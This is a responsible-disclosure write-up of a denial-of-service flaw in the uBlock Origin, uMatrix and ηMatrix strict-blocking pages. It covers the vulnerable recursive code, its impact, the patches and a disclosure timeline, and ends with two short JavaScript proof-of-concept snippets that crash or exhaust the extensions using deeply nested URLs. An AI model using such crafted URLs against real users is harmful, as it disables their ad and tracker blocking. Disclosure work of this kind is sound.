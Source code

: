 = uBlock Origin (and uMatrix) DoS with strict-blocking filter and crafted URL

:fn-legacy-release: footnote:[A release of the uBO (Legacy) extension https://github.com/gorhill/uBlock-for-firefox-legacy/issues/310#issuecomment-876323719[is forthcoming].]

:fn-ubo-strict-mode-history: footnote:[Strict-blocking support was added to uBO in https://github.com/gorhill/uBlock/commit/a4b4bc98ffc267496d5dc47d9c4477de38bcd0c7[commit a4b4bc] and was based on https://github.com/uBlock-LLC/uBlock/issues/1013[discussion in the issue tracker]. Support for displaying parsed URL parameters was added later in https://github.com/gorhill/uBlock/commit/1d5a592b129b92ff6fad7cf01c4b412547893bfc[commit 1d5a59] and was based on a https://github.com/gorhill/uBlock/issues/691[feature request].]

:fn-umatrix-strict-mode-history: footnote:[uBO's support for displaying parsed URL parameters was ported to uMatrix in https://github.com/gorhill/uMatrix/commit/3f8168ce0bb7bb1837f9fedfc02aa09723ee3e25[commit 3f8168].]

:fn-ubo-patch: footnote:[The uBO vulnerability was fixed in https://github.com/gorhill/uBlock/commit/365b20e8cc27cd776ef3868b02ea739ba387356d[commit 365b20].]

:fn-ematrix-patch: footnote:[The ηMatrix vulnerability was fixed in https://gitlab.com/vannilla/ematrix/-/commit/42869ac0a738679b819bebca24298c601ed17f7e[commit 42869a].]

:fn-truecrypt-vulnerability: footnote:[I eventually migrated away from TrueCrypt after an https://googleprojectzero.blogspot.com/2015/10/windows-drivers-are-truely-tricky.html[unpatched vulnerability] was discovered.]

:fn-umatrix-archived: footnote:[gorhill https://github.com/uBlockOrigin/uMatrix-issues/issues/291#issuecomment-694988696[commented] about archiving the uMatrix repository in September 2020.]

:fn-umatrix-last-stable-release: footnote:[The last stable release of uMatrix, https://github.com/gorhill/uMatrix/releases/tag/1.4.0[1.4.0], was tagged on September 5, 2019.]

:fn-ubo-patch-release: footnote:[https://github.com/gorhill/uBlock/releases/tag/1.36.2[uBO 1.36.2] was tagged shortly after notification of the vulnerability.]

:fn-ematrix-patch-release: footnote:[https://gitlab.com/vannilla/ematrix/-/tags/v4.4.9[ηMatrix 4.4.9] was tagged shortly after notification of the vulnerability.]


== Overview

uBlock Origin (uBO) is a browser extension that blocks ads, security risks, privacy risks, and other web annoyances.
One of its features is "strict blocking," which prevents all connections--including direct navigations--to resources that match strict filters.

Strict filters are most often used to block sites that perform affiliate redirects, serve malware, or are otherwise undesirable to visit.
They are typically applied at the domain level (e.g., googlesyndication.com) and tend to resemble entries in hosts files, though they can also target more specific resources.

Strict blocking works by opening a warning page that provides information about the blocked resource, including its URL and the filter that prevented the resource from loading.
The warning page also displays query parameters from the blocked URL to help users bypass redirect tracking.

In earlier versions of uBO, these parameters were parsed recursively and added to the DOM without any depth checks, which could lead to extension crashes and memory exhaustion, depending on the browser and hardware.
uMatrix and ηMatrix, a fork of uMatrix compatible with Pale Moon, share similar code for displaying parsed URL parameters.

Users should upgrade to uBO 1.36.2 and ηMatrix 4.4.9 to receive fixes for this security vulnerability, which affects the default configurations of both extensions.
The uBO (Legacy) extension{fn-legacy-release} has a separate release process and is still vulnerable.

*Edit*: uMatrix 1.4.2 has been released with a fix for the vulnerability, though the uMatrix GitHub repository remains archived.


== Discussion

I discovered this bug while browsing the uBO codebase, which was a bit surprising given how basic the finding is.
Even more surprising is that this vulnerability seems to have existed in uBO since 2015{fn-ubo-strict-mode-history} (and in uMatrix since 2017{fn-umatrix-strict-mode-history}).
Perhaps the extension has not received as much attention from security researchers as I'd expected, given its popularity and its security- and privacy-related functionality?

=== Vulnerability

Here is the vulnerable code from uBO 1.36.0:

[source,javascript,linenums,start=147]
.https://github.com/gorhill/uBlock/blob/1.36.0/src/js/document-blocked.js#L147-L176[uBlock/src/js/document-blocked.js]
----
const renderParams = function(parentNode, rawURL) {
    const a = document.createElement('a');
    a.href = rawURL;
    if ( a.search.length === 0 ) { return false; }

    let pos = rawURL.indexOf('?');
    const li = liFromParam(
        vAPI.i18n('docblockedNoParamsPrompt'),
        rawURL.slice(0, pos)
    );
    parentNode.appendChild(li);

    const params = a.search.slice(1).split('&');
    for ( const param of params ) {
        let pos = param.indexOf('=');
        if ( pos === -1 ) {
            pos = param.length;
        }
        const name = safeDecodeURIComponent(param.slice(0, pos));
        const value = safeDecodeURIComponent(param.slice(pos + 1));
        const li = liFromParam(name, value);
        if ( reURL.test(value) ) {
            const ul = document.createElement('ul');
            renderParams(ul, value);                            <1>
            li.appendChild(ul);
        }
        parentNode.appendChild(li);
    }
    return true;
};
----

<1> `renderParams` is called recursively without taking into account the current nesting level.
This allows for repeated allocations that can cause resource exhaustion on memory-constrained hardware and extension crashes in Chrome.

For reference, here is what the warning page looks like in uBO 1.36.0 with some nested parameters displayed:

.uBO's strict-blocking warning page
image::images/ubo_strict_blocking_warning_page.png[uBO's strict-blocking warning page. The page displays a URL that contains a few levels of nested parameters and the parsed representations of those parameters.]

=== Impact and scope

The strict-blocking warning page is only displayed when direct navigations are blocked.
This means that malicious hosts would need to induce users to trigger a navigation somehow, such as by clicking a link.
iframes are classified as sub-documents and do not trigger the warning page, which should make it harder for malicious hosts to exploit this vulnerability in the background.

When uBO (or uMatrix) crashes, users are left without filtering protection until the extension is reloaded.
This introduces the possibility of undesired traffic flowing to and from the user's browser.
I tested three browsers--Firefox, Chrome, and Pale Moon--and only noticed extension crashes in Chrome.
Other browsers that uBO supports, such as Opera and Edge, were not tested and may exhibit different behavior.

The vulnerability affects standard configurations of uBO, uMatrix, and ηMatrix because each extension enables filter lists that contain thousands of strict filters by default.

=== uBO and ηMatrix patches

uBO 1.36.2 restricts parameter-nesting to 2 levels to fix the bug{fn-ubo-patch}, and ηMatrix 4.4.9 restricts parameter-nesting to 3 levels to fix the same issue{fn-ematrix-patch}.

=== uMatrix maintenance

The uMatrix repository was archived in September 2020{fn-umatrix-archived}, and the last stable uMatrix release was in September 2019{fn-umatrix-last-stable-release}.
Until now, I've been treating uMatrix similarly to how I treated TrueCrypt after its development had stopped: unmaintained but still trustworthy in the absence of known vulnerabilities{fn-truecrypt-vulnerability}.
I may have to rethink my default stance for unmaintained security-related software going forward.

*Edit*: uMatrix 1.4.2 was tagged a few days after this post was published.
Users who disabled filter lists on the "Assets" tab in the uMatrix dashboard can re-enable the lists after upgrading.


== POCs

=== uBO

[source,javascript]
----
// bet365.com is used because uBO enables EasyList by default and because
// EasyList contains this entry: ||bet365.com/*?affiliate=$document

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
}

const url = 'http://bet365.com/?affiliate=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uBO eventually crashes
// and must be reloaded to work again.
----

=== uMatrix and ηMatrix

[source,javascript]
----
// googleadservices.com is used because uMatrix and ηMatrix enable Peter Lowe's
// tracking list by default and because the list contains this entry:
// 127.0.0.1 googleadservices.com

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
} else if (navigator.userAgent.includes('PaleMoon')) {
    // Pale Moon can actually handle more repetitions than this,
    // but its memory usage becomes excessive (>10GB)
    repetitions = 18000;
}

const url = 'http://googleadservices.com/?a=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uMatrix eventually crashes
// and must be reloaded to work again.
----


== Timeline

* 2021-07-05 - I emailed gorhill (the author of uBO and uMatrix) my findings
* 2021-07-06 - gorhill pushed a fix for uBO and tagged 1.36.2{fn-ubo-patch-release}
* 2021-07-06 - I emailed vannilla (the maintainer of ηMatrix) my findings
* 2021-07-06 - vannilla pushed a fix for ηMatrix and tagged 4.4.9{fn-ematrix-patch-release}
* 2021-07-06 - uBO 1.36.2 became available on the Chrome and Firefox add-ons sites
* 2021-07-07 - uBO 1.36.2 became available on the Opera add-ons site
* 2021-07-11 - ηMatrix 4.4.9 became available on the Pale Moon add-ons site after a beta-testing period
* 2021-07-14 - I published this post
* 2021-07-19 - gorhill pushed a fix for uMatrix and tagged 1.4.2


== Acknowledgments

Thanks to gorhill for fixing the issue in uBO, preparing a release, and creating software that has improved daily web-browsing for many users.

Thanks to vannilla for fixing the issue in ηMatrix and preparing an out-of-band release.

Thanks to nikrolls for submitting uBO 1.36.2 to the Edge add-ons site.

Thanks to JustOff for agreeing to prepare a future uBO (Legacy) release that addresses the vulnerability.

== References

* https://github.com/gorhill/uBlock/wiki/Strict-blocking/[Documentation for uBO's strict-blocking feature]
* https://github.com/gorhill/uMatrix/wiki/How-to-get-past-%22uMatrix-has-prevented-the-following-page-from-loading%22[Documentation for uMatrix's strict-blocking feature]
